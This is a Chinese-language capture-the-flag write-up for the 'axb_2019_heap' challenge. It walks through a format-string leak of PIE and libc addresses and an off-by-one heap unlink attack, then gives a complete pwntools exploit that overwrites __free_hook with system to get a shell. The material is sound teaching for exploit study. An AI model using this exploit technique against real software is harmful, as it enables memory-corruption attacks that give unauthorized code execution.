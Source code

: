 # axb_2019_heap

这里我们先用常规的方法看看保护和ida

![image-20250423200359240](../images/image-20250423200359240.png)

这里可以知道他的保护是全开的那我们擦看ida的源代码

![image-20250423200630819](../images/image-20250423200630819.png)

从这里我们看到了要给正常的一个菜单题但是发现了一个banner函数

![image-20250423200700530](../images/image-20250423200700530.png)

这里很明显有着要给格式化字符串

![image-20250423200722787](../images/image-20250423200722787.png)

从这里我们可以明白一个点就是如果需要写入数据的话那么这个chunk的大小要大于0x80是的它可以写入数据并且他只能写入0-10个chunk但是也是够了

![image-20250423200736106](../images/image-20250423200736106.png)

从这里我们可以明确知道这里绝对没有uaf漏洞

![image-20250423200745729](../images/image-20250423200745729.png)

在这里我们看到了一个修改快并且发现了一个get_input函数

![image-20250423200804283](../images/image-20250423200804283.png)

在这里发现了一个offbyone的漏洞因此我们就会出现

因此我们这里就对整个文件分析完了这里我们就可以使用格式化字符串的方式来获得pie和libc的基址并且我们使用unlink来进行攻击

因此我们可以编写exp

```py
from pwn import *
context.log_level='debug'
io = process("/home/fofa/axb_2019_heap")
# io = remote("node5.buuoj.cn",28330)
libc = ELF("/home/fofa/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6")

def add(idx, size, content):
    io.sendlineafter('>>', '1')
    io.sendlineafter('):', str(idx))
    io.sendlineafter('size:', str(size))
    io.sendlineafter('content:', content)


def delete(idx):
    io.sendlineafter('>>', '2')
    io.sendlineafter('index:', str(idx))


def edit(idx, content):
    io.sendlineafter('>>', '4')
    io.sendlineafter('index:', str(idx))
    io.sendlineafter('content: \n', content)


def show():
    io.sendlineafter('>>', '3')
# gdb.attach(io,'b *$rebase(0xB2C)')
io.recvuntil('name: ')
io.sendline('%11$p%15$p')
io.recvuntil('Hello, ')
base = int(io.recv(14),16)-0x1186
libc_base = int(io.recv(14),16)-libc.sym['__libc_start_main']-0xf0
info("base "+hex(base))
info("libc "+hex(libc_base))

free_hook=libc_base+libc.sym['__free_hook']
system=libc_base+libc.sym['system']

bss = base + 0x202060
info('bss'+hex(bss))

add(0,0x98,'aaaa')
add(1,0x98,'cccc')
add(2,0x90,'cccc')#2
add(3,0x90,'/bin/sh\x00')#3

payload=p64(0)+p64(0x91)+p64(bss-0x18)+p64(bss-0x10)+p64(0)*14+p64(0x90)+b'\xa0'
# payload=p64(0)+p64(0x91)+p64(bss-0x18)+p64(bss-0x10)+p64(0)*14+p64(0x90)+'\xa0'

edit(0,payload)
delete(1)
gdb.attach(io)
pause()
edit(0,p64(0)*3+p64(free_hook)+p64(0x10))
edit(0,p64(system))

delete(3)

# gdb.attach(io)


io.interactive()
```

---

## 这里对unlink总结

1、简介:俗称脱链,就是将链表头处的free堆块unsorted bin中脱离出来,然后和物理地址相邻的新free的堆块合并成大堆块(向前合并或者向后合并),再放入到unsorted bin中。

2、危害原理:通过伪造free状态的fake_chunk,伪造fd指针和bk指针,通过绕过unlink的检测实现unlink, unlink就会往p所在的位置写入p-0x18,从而实现任意地址写的漏洞。

3、漏洞产生原因：Offbynull、 offbyone、堆溢出,修改了堆块的使用标志位